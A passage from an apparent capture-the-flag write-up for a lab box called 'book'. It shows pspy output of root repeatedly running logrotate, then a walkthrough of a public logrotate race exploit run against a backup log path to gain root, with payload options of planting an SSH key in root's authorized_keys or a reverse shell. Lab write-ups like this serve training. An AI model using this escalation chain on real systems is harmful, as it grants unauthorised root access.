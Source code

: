 ```bash
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jan 29 13:03:06 2020 from 10.10.14.3
reader@book:~$ id
uid=1000(reader) gid=1000(reader) groups=1000(reader)
```

## Root Shell

`pspy` picked up a `lograte` service running continuously.

```bash
2020/07/11 18:39:09 CMD: UID=0    PID=17322  | /bin/sh /root/log.sh 
2020/07/11 18:39:09 CMD: UID=0    PID=17324  | sleep 5 
2020/07/11 18:39:11 CMD: UID=0    PID=17325  | /bin/kill -s 58 17146 
2020/07/11 18:39:14 CMD: UID=0    PID=17327  | /usr/sbin/logrotate -f /root/log.cfg 
2020/07/11 18:39:14 CMD: UID=???  PID=17326  | ???
2020/07/11 18:39:14 CMD: UID=0    PID=17328  | sleep 5 
2020/07/11 18:39:19 CMD: UID=0    PID=17330  | /usr/sbin/logrotate -f /root/log.cfg 
2020/07/11 18:39:19 CMD: UID=0    PID=17329  | /bin/sh /root/log.sh 
2020/07/11 18:39:20 CMD: UID=0    PID=17331  | sleep 5 
2020/07/11 18:39:25 CMD: UID=0    PID=17333  | /usr/sbin/logrotate -f /root/log.cfg 
2020/07/11 18:39:25 CMD: UID=0    PID=17332  | /bin/sh /root/log.sh 
2020/07/11 18:39:25 CMD: UID=0    PID=17334  | sleep 5 
2020/07/11 18:39:30 CMD: UID=0    PID=17336  | /usr/sbin/logrotate -f /root/log.cfg 
2020/07/11 18:39:30 CMD: UID=0    PID=17335  | /bin/sh /root/log.sh 
2020/07/11 18:39:30 CMD: UID=0    PID=17337  | sleep 5 
2020/07/11 18:39:35 CMD: UID=0    PID=17339  | /usr/sbin/logrotate -f /root/log.cfg 
2020/07/11 18:39:35 CMD: UID=0    PID=17338  | /bin/sh /root/log.sh 
2020/07/11 18:39:35 CMD: UID=0    PID=17340  | sleep 5 
2020/07/11 18:39:40 CMD: UID=0    PID=17342  | /usr/sbin/logrotate -f /r
```

`lograte` has a [privilege escalation](https://www.exploit-db.com/exploits/47466) vulnerability. We can use this to get `root`. One requirement of this exploit is to know the log path. There is a folder named `backup` in our `home` directory. I had to look through the forum to confirm this was the right one. 

We can use two methods as payload.

1. Write a ssh key to `/authorized_keys`  in `root` folder.
2. Use a reverse shell as the payload.

The first one is more stable.

```bash
reader@book:~$ ./log -p payload /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```
I had to manually change the `access.log` file to trigger the exploit. You can also re login to `reader` from another window to trigger it.
